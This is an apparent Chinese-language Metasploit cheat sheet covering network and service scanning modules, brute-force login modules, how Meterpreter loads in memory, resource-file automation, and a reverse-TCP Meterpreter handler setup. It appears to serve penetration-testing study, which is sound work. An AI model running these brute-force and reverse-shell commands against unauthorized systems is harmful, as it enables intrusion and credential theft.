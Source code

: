 **信息收集**

利用 auxiliary 这个模块来获取目标网端的信息,包括端口开放情况、主机存活情况.
```bash
use auxiliary/scanner/discovery/arp_sweep       # arp 扫描
use auxiliary/scancer/smb/smb_version           # 存活的 445 主机
use auxiliary/scanner/portscan/syn              # 端口扫描
use auxiliary/scanner/portscan/tcp              # TCP 端口扫描
use auxiliary/scanner/telnet/telnet_version     # telent 服务扫描
use auxiliary/scanner/rdp/rdp_scanner           # 远程桌面服务扫描
use auxiliary/scanner/ssh/ssh_version           # ssh 主机扫描
use auxiliary/scanner/smb/smb_version           # smb 服务扫描
use auxiliary/scanner/ip/ipidseq                # IPID 序列扫描器
use auxiliary/scanner/mssql/mssql_ping          # mssql
use auxiliary/scanner/http/webdav_scanner       # webdav
```

**爆破**
```bash
use auxiliary/scanner/mysql/mysql_login         # 爆破 mysql
use auxiliary/scanner/mssql/mssql_login         # 爆破 mssql
use auxiliary/scanner/ssh/ssh_login             # 爆破 SSH
use auxiliary/scanner/snmp/snmp_enum            # 枚举 snmp
use auxiliary/scanner/vnc/vnc_login             # 爆破 VNC
use auxiliary/scanner/http/tomcat_mgr_login     # 爆破 tomcat
```

---

# meterpreter

Meterpreter 属于 stage payload，在 Metasploit Framework 中，Meterpreter 是一种后渗透工具，它属于一种在运行过程中可通过网络进行功能扩展的动态可扩展型 Payload。这种工具是基于 “内存 DLL 注入” 理念实现的，它能够通过创建一个新进程并调用注入的 DLL 来让目标系统运行注入的 DLL 文件。

首先目标先要执行初始的溢出漏洞会话连接，可能是 bind 正向连接，或者反弹 reverse 连接。反射连接的时候加载 dll 链接文件，同时后台悄悄处理 dll 文件。其次 Meterpreter 核心代码初始化, 通过 socket 套接字建立一个 TLS 加密隧道并发送 GET 请求给 Metasploit 服务端。Metasploit 服务端收到这个 GET 请求后就配置相应客户端。最后，Meterpreter 加载扩展，所有的扩展被加载都通过 TLS 进行数据传输。

## Tips

可以将攻击代码写入 configure.rc（只要是以 .rc 结尾的文件）配置文件中，然后使用命令
```bash
msfconsole -r configure.rc
```
进行自动攻击

---

## 获取会话

**handler**
```bash
use exploit/multi/handler
set payload windows/x64/meterpreter_reverse_tcp
set lhost [lhost]
set lport [lport]
exploit -j  # 后台执行
```
